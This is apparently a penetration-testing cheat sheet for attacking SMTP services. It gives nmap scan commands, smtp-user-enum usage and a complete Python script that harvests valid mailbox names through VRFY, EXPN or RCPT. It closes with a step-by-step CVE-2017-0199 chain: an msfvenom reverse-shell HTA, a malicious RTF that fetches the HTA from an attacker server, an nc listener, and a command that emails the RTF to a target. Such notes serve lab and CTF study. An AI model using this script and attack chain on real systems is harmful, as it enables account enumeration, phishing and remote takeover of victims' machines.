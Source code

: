 # Simple Mail Transfer Protocol

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Footprinting The Service

### **Nmap**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sC -sV -p25
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Nmap - Open Relay**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumerate users

Response codes from smtp servers may vary example code 250 & 252 is considered a valid user and smtp-user-enum checks only for 250

Without Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP
```

With Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP -d example.com
```

I have came across many times where smtp-user-enum has given me false-negatives. Use the following python script

{% code overflow="wrap" %}
```python
import smtplib
import logging
from argparse import ArgumentParser

# Setup logging
logging.basicConfig(level=logging.INFO, format='%(message)s')
logger = logging.getLogger()

def smtp_enum_user(smtp_server, user_list, method="VRFY", port=25, timeout=10, domain="example.com"):
    try:
        server = smtplib.SMTP(smtp_server, port, timeout=timeout)
        server.ehlo_or_helo_if_needed()

        if method not in ["VRFY", "EXPN", "RCPT"]:
            logger.error("Invalid method. Use VRFY, EXPN, or RCPT.")
            return
        
        with open(user_list, 'r') as file:
            users = file.readlines()
        
        for user in users:
            user = user.strip()
            if not user:
                continue

            try:
                response = None
                if method == "VRFY":
                    response = server.verify(user)
                elif method == "EXPN":
                    response = server.expn(user)
                elif method == "RCPT":
                    from_address = f"test@{domain}"
                    server.mail(from_address)
                    response = server.rcpt(f'<{user}@{domain}>')
                
                if response:
                    code, message = response
                    if code == 250:
                        logger.info(f"User {user} exists: {message}")
                    elif code == 550:
                        logger.info(f"User {user} does not exist: {message}")
                    else:
                        logger.info(f"Received response {code} for user {user}: {message}")
            except smtplib.SMTPServerDisconnected:
                logger.error("Server disconnected unexpectedly")
                break
            except Exception as e:
                logger.error(f"Error querying user {user}: {str(e)}")
        
        server.quit()
    except Exception as e:
        logger.error(f"Failed to connect to SMTP server: {str(e)}")

def main():
    parser = ArgumentParser(description="SMTP User Enumeration Script")
    parser.add_argument("-s", "--server", required=True, help="Target SMTP server IP or hostname")
    parser.add_argument("-u", "--userlist", required=True, help="Path to the list of usernames")
    parser.add_argument("-m", "--method", default="VRFY", choices=["VRFY", "EXPN", "RCPT"], help="Enumeration method (default: VRFY)")
    parser.add_argument("-p", "--port", default=25, type=int, help="SMTP server port (default: 25)")
    parser.add_argument("-t", "--timeout", default=10, type=int, help="Connection timeout in seconds (default: 10)")
    parser.add_argument("-d", "--domain", default="example.com", help="Domain to construct a valid email address (default: example.com)")
    
    args = parser.parse_args()

    smtp_enum_user(args.server, args.userlist, args.method, args.port, args.timeout, args.domain)

if __name__ == "__main__":
    main()

```
{% endcode %}

#### [RTF Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)

1. msfvenom -p windows/shell\_reverse\_tcp LHOST=local-IP LPORT=443 -f hta-psh -o msfv.hta
2. python2 cve-2017-0199\_toolkit.py -M gen -t RTF -w MailFile.RTF -u http://local-WebServIP:Port/msfv.hta
3. python2 -m SimpleHTTPServer 80
4. nc -lnvp 443
5. sendEmail -f FromEmail@example.com -t ToEmail@example.com -u "Subject" -m "Message" -a MailFile.RTF -s TargetIP -v
